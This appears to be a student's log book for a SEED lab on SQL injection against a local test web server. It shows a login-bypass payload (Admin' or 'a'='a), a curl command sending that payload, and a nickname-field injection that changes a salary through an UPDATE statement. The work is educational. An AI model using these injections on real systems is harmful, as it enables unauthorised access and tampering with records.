








# Log Book 7

## Environment Setup

We successfuly changed the hosts file and ran the server using the `docker-compose` commands.


## Task 1

For this task we want to display the information of the employee 'Alice'.
We acheived this using the following query:



## Task 2

### Task 2.1

The objetive of this task is to find bypass the admin's login to retreive
the information about all employes.

To achieve this, we inject the sql statement bellow:
```
username=Admin' or 'a'='a
password=123
```

Which brings us to the desired page



### Task 2.2

The goal of this task is to achieve the last task's result from the command line.
We use the following command:
```bash
curl "www.seed-server.com/unsafe_home.php?username=Admin%27or%27a%27=%27a&Password=123"
```

Which has the following output:


### Task 2.3

We cannot inject two sql queries in the system.
This happens due to the use of a function that prevents the injection of two queries inside one:
the [mysql `query` function](https://www.php.net/manual/en/mysqli.query.php).
In contrast, [mysql's `multi-query`](https://www.php.net/manual/en/mysqli.multi-query.php) allows
for multiple query injection

## Task 3

### Task 3.1

The goal of this task is to change an employee status with sql injection in the
UPDATE statement.

We did this by inserting `Alice', Salary=987654321, nickname='Alice` into the nickname field.
All other fields were left blank.

The profile before running the request:


The profile after sending the request:


### Task 3.2

For this task we want to set another employee's salary.
We do this by using the following request:



As we can see, Bobby's salary was set to 1:


### Task 3.3

The objetive of this task is to change a user's password.

Let's hash a new password: `superpassword`:


Then we can use the following request to change Bobby's password:


Afterwards, we can login into Bobby's account using `superpassword` as the password

